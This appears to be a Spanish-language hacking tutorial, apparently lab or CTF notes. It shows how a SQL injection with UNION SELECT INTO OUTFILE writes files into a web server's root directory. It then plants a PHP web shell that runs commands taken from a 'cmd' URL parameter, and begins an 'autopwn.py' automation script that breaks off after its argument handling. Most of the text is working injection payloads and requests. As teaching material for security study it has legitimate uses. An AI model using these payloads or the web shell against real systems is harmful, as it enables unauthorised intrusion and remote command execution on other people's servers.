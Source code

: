```mysql
' UNION SELECT "<CONTENT_NAME>" INTO OUTFILE "/var/www/html/<FILE_NAME>.txt"-- -
```

Aplicado a nuestro caso...

```mysql
' UNION SELECT "example" INTO OUTFILE "/var/www/html/test.txt"-- -
```

Una vez hecho esto habremos creado el siguiente archivo con la palabra `example` en el archivo `test.txt` lo comprobaremos llendo a la siguiente ruta...

```
URL = http://example.com/test.txt
```

Info (contenido):

```
example
```

Por lo que vemos que funciona...

Vamos a crear un parametro llamado `cmd` para poder ejecutar comando de forma libre ya que interpreta `php` de la siguiente manera...

```mysql
' UNION SELECT "<?php system($_REQUEST['cmd']); ?>" INTO OUTFILE "/var/www/html/test.php"-- -
```

Por lo que una vez enviado esta peticion si nos vamos a la siguiente ruta donde deberia de estar...

```
URL = http://example.com/test.php
```

Nos deberia de aparecer una pagina en blanco o con algunos datos, pero que no seran importantes, una vez dentro de este archivo en la `URL` pondremos lo siguiente...

```
URL = http://example.com/test.php?cmd=<COMMAND>
```

> EJEMPLO

```
URL = http://example.com/test.php?cmd=whoami
```

Y si enviamos eso nos aparecera en este caso el nombre de usuario pintado en la pagina, por lo que vemos que funciona y ya podriamos explotarlo de muchas formas...

Si queremos automatizar todo esto con un script, haremos lo siguiente...

Llamaremos al archivo `autopwn.py`...

```python
#!/usr/bin/python3

from pwn import *
import signal, pdb, requests

def def_handler(sig, frame):
        print("\n\n[!] Saliendo...\n")
        sys.exit(1)

#Ctlr+C
signal.signal(signal.SIGINT, def_handler)

if len(sys.argv) != 3:
        log.failure("Uso: %s <ip-address> filename" % sys.argv[0])
        sys.exit(1)

```